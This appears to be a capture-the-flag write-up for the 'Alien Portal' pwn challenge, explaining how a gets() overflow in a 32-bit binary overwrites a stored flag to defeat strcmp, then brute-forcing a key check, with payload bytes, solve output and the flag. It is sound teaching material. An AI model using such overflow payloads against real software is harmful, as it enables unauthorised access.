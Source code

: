 # Alien Portal

```
The fate of humanity rests in your hands.
We've managed to infiltrate an alien login portal, and we believe that they're hiding a flag in there.
Can you help us get in?
```
solves: *7* <br>
files given
- [vuln.exe](./vuln.exe)

`file` output
```sh
└─$ file vuln.exe
vuln.exe: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=9e95f0a128ef480097a01a842b5c645789f2e7e5, for GNU/Linux 3.2.0, not stripped
```
This is a `32bit` executable program <br>

`checksec` output
```sh
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Lets decompile the program <br>
![main has gets() call](./ghdira_main_decomp.png) <br>
It first reads the flag then takes user input. It compares `flag` with the `input`, that is taken in by `gets()` <br>
We are able to abuse `gets` to overwrite the `flag`, `ck`, and `local_14` variables, as well as overwrite the return address \
<br>
Lets run[^1] it on `gdb`, and try to find the offset. I'm using [pwndbg](https://github.com/pwndbg/pwndbg). \
However, when trying to get the offset, I keep getting an error: `<Could not read memory at 0x6175615d>`. It's probably something to do with `32bit` binary shenanigans. \
Luckily, you dont actually need to ret2win in order to solve the challenge. \
<br>
## Defeating `strcmp`
My idea is to defeat the `strcmp` check via overwriting the string. \
```c
int strcmp(const char *cs, const char *ct)
{
	unsigned char c1, c2;

	while (1) {
		c1 = *cs++;
		c2 = *ct++;
		if (c1 != c2)
			return c1 < c2 ? -1 : 1;
		if (!c1)
			break;
	}
	return 0;
}
```
Above is a `strcmp` implementation I found [here](https://elixir.bootlin.com/linux/latest/source/lib/string.c#L276)
Simply explained, it takes `cs` and `ct`, loops through the characters to compare them, and returns `0` if they are the same. the final `if` case leading to the `break` checks for NULL.  
We know that our `input` is only `6` characters long before it overflows to the `flag` variable, so I decided to change the `flag` variable to hold our own input, including the NULL terminating byte.
```py
payload = b'A'*5 + b'\x00' + b'A'*5 + b'\x00';
```
this means that `strcmp` will get two inputs of `AAAAA\x00` and `AAAAA\x00` and compare them. We dont have to know the length of the actual `flag`, as we are bringing in our own NULL terminating byte.  

after defeating `strcmp`, we will arrive at this function:  
![twofa.png](./twofa.png) <br>
There does not seem to be any vulnerable code here, and just a key check. A look into the `encrypt_key()` function shows what this function actually does  
![encrypt_key.png](./encrypt_key.png) <br>
I made a bruteforce script[^2] here [gen.c](./gen.c). What it basically does is that it emulates the `encrypt_key()` function, and searches for values in the ASCII range that allows us to solve the final check.
<br>
The final solve script can be found here: [exp.py](./exp.py) 
```
└─$ python3 exp.py
[+] Opening connection to nc.lagncra.sh on port 8011: Done
b'Welcome to the alien portal!\r\n'
b'AAAAA\x00AAAAA\x00'
/mnt/d/CTFs/lnc/3.0/pwn/Alien Portal/exp.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil('What is your password?: ')
b'}L}}\x00'
/mnt/d/CTFs/lnc/3.0/pwn/Alien Portal/exp.py:19: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil('Please enter your personalized authentication code: ')
[*] Switching to interactive mode
Congratulations! Here is your flag: LNC2023{SecreT_Al13n_por7a1?}[*] Got EOF while reading in interactive
$
```

FLAG: `LNC2023{SecreT_Al13n_por7a1?}`

[^1]: When trying to run it, I got: `/mnt/d/CTFs/lnc/3.0/pwn/Alien Portal/vuln.exe: /lib/i386-linux-gnu/libc.so.6: version 'GLIBC_2.34' not found (required by /mnt/d/CTFs/lnc/3.0/pwn/Alien Portal/vuln.exe)` As it turns out, this was compiled for a newer `glibc` then my debian WSL has, so I had to run it on kali... Oh well!

[^2]: At first I didn't limit the search space, but after A LOT of fustration(of trying to get it to work on remote[it worked on my machine]), I decided it wouldn't hurt to get some "known good" values in the ASCII space... still no clue what happened there, but hey, the printable ASCII values worked!

